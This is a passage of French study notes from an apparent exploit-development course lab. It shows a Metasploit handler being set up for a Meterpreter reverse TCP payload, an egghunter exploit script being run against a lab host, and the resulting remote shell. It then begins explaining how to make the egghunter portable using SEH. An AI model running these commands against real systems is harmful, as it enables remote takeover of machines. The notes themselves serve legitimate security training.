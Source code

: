 On lance un *handler* Meterpreter :

```powershell
┌──(kali㉿kali)-[/media/…/os/exp-301-osed/cours/cours6]
└─$ sudo msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST 192.168.45.183; set LPORT 443; exploit"
[sudo] password for kali:
[*] Using configured payload generic/shell_reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
LHOST => 192.168.45.183
LPORT => 443
[*] Started reverse TCP handler on 192.168.45.183:443
```

Puis on lance l'exploit mis à jour :

```powershell
┌──(kali㉿kali)-[/media/…/os/exp-301-osed/cours/cours6]
└─$ python3 egg_v12.py 192.168.234.10
Sending buffer
Done!
```

Et on reçoit un *reverse shell* :

```powershell
[*] Sending stage (175686 bytes) to 192.168.234.10
[*] Meterpreter session 1 opened (192.168.45.183:443 -> 192.168.234.10:53994) at 2024-07-26 17:21:38 -0400

meterpreter > getuid
Server username: CLIENT\Offsec
```

### Améliorer la portabilité du Egghunter en utilisant SEH [TbD]

Initialement, le code egghunter utilisait la fonction `NtAccessCheckAndAuditAlarm`, car le code de l'appel système n'avait pas changé depuis Windows 8. On a dû écrire en dur le nouveau code de l'appel système, impactant la portabilité de l'exploit, car il devient nécessaire d'identifier la version de l'OS en amont.

On veut trouver un moyen que ça fonctionne sur toutes les versions de Windows.

L'idée d'utiliser `NtAccessCheckAndAuditAlarm` permet de déléguer la prise en charge de l'*access violation* au système d'exploitation. Cependant, nous pourrions le faire nous-mêmes.

On va créer notre propre *Structured Exception Handler* pour gérer l'accès à des pages mémoires invalides. Le processus `SEH` n'a pas beaucoup changé par rapport aux anciennes versions de Windows. L'impact est que le code de egghunter passe de *35b* a *60b*.

